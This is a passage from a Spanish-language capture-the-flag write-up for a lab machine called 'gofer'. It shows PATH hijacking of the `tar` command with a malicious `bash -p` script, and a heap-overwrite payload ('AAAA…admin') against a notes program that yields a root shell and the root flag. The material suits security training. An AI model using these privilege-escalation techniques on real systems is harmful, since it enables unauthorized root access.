 Ahora cuando ejecutemos el comando `tar` se ejecutará nuestro script recién creado siempre que en el path se realice la primera coincidencia en la ruta en la que hemos creado nuestro script malicioso.

Podemos comprobar revisando el PID de la bash que tenemos y podemos ver que al ejecutar `tar` cambia, esto significa que se está ejecutando correctamente el `bash -p` del script.
```shell
tbuckley@gofer:/tmp$ echo $$
25146
tbuckley@gofer:/tmp$ tar
tbuckley@gofer:/tmp$ echo $$
25942
```

Ahora realizamos de nuevo el proceso para convertirnos administradores...
Creamos un usuario -> Lo borramos -> Creamos una nota con el patrón creado anteriormente (AAAAAAAAAAAAAAAAAAAAAAAAadmin) 

```shell
Your choice: 2


Username: AAAAAAAAAAAAAAAAAAAAAAAAadmin
Role: admin
```

Y al ejecutar la opción 8...
```shell
Your choice: 8

Access granted!
root@gofer:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1002(tbuckley),1004(dev)
```

Nos convertimos en `root` y ya podemos leer su flag.
```shell
root@gofer:/root# cat root.txt
f779f67c2b1f8b....
```

¡Y ya estaría!

Happy Hacking! 🚀